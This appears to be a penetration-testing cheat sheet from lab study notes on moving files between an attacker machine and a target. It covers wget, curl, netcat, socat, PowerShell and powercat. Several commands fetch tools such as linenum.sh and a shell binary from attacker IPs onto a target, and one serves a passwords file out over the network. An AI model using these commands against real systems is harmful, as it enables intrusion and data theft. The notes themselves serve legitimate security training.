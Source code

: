# Transferring Files

## wget

```bash
python3 -m http.server 8000 # on kali machine
wget http://10.10.14.1:8000/linenum.sh # on target machine
```

## cURL

```bash
curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
```

## SCP

```bash
scp linenum.sh user@remotehost:/tmp/linenum.sh # with ssh user creds
```

## Base64

```bash
lojique@htb[/htb]$ base64 shell -w 0
user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```

## Netcat

```bash
# to receive a file
nc -nlvp 4444 > incoming.exe
# to transfer a file
nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe
```

## Socat

```bash
# to transfer
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
# to receive
socat TCP4:10.11.0.4:443 file:received_secret_passwords.txt,create
```

## PowerShell

```
# download a file
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
```

## Powercat

```
# listener
sudo nc -lnvp 443 > receiving_powercat.ps1
# send a file
powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
```
